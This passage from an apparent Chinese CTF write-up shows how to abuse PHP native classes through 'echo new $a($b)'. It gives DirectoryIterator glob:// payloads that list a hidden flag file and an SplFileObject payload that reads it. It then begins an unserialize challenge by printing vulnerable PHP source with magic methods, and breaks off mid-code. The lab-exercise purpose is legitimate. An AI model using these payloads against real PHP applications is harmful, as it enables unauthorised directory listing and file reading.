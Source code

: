 怎么利用`echo new $a($b)`?

利用原生类来得到目录，读文件内容。

###  读文件目录

```
c=9223372036854775806&a=DirectoryIterator&b=glob://flag*.php
```

这个会发现读到的是flag.php,但是这个文件根本读取不到内容。

源码是`flag+md5(加密)+.php`，所以文件名应该不是这个。

查了下`glob://`，后面是根据正则表达式来匹配路径

*：表示0个或者大于0的字符

所以加个*是匹配不到的

我们这儿利用`?`(匹配一个字符)

payload：

```
c=9223372036854775806&a=DirectoryIterator&b=glob://flag?*.php
```

![image-20220301193656392](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202203011937505.png)然后利用`SplFileObject`读取文件内容

```
a=SplFileObject&b=flag56ea8b83122449e814e0fd7bfb5f220a.php&c=9223372036854775806
```

可以看看这篇[原生类的总结](http://www.z3eyond.top:8099/index.php/archives/17/)

##  easy_unserialize

直接读源码

```
<?php
/**
 * @Author: F10wers_13eiCheng
 * @Date:   2022-02-01 11:25:02
 * @Last Modified by:   F10wers_13eiCheng
 * @Last Modified time: 2022-02-07 15:08:18
 */
include("./HappyYear.php");

class one {
    public $object;

    public function MeMeMe() {
        array_walk($this, function($fn, $prev){
            if ($fn[0] === "Happy_func" && $prev === "year_parm") {
                global $talk;
                echo "$talk"."</br>";
                global $flag;
                echo $flag;
            }
        });
    }

    public function __destruct() {
        @$this->object->add();
    }

    public function __toString() {
        return $this->object->string;
```